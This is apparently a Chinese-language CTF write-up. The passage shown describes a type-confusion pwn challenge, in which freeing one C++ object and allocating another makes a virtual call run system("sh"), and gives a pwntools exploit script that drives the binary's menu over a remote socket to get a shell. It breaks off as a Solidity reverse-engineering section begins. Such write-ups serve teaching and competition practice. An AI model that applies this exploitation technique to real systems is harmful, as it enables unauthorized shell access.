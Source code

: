 ### type_confusion

类型混淆，可以先释放一个 c1类的 obj, 然后分配一个 c2 类的 obj, 然后利用 see c1 obj 的功能调用虚函数，会调用 c2 的虚函数，c2 的相应虚函数的作用就是 system("sh)

```
int c2::dump()
{
    system("sh");
}
```

具体看 `exp` 和源码

Exp:

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = "debug"

binary_path = "../dist/pwn"


# p = process(binary_path)
p = remote("172.17.0.2", 20000)

p.recvuntil("Your choice: ")
p.sendline("2")
p.recvuntil("Index: ")
p.sendline("0")

p.recvuntil("Your choice: ")
p.sendline("100")

p.recvuntil("Your choice: ")
p.sendline("1")
p.recvuntil("Index: ")
p.sendline("0")


p.interactive()
```



## Rev

### stupid_contract_challenge[rev]

简单solidity逆向，源码如下
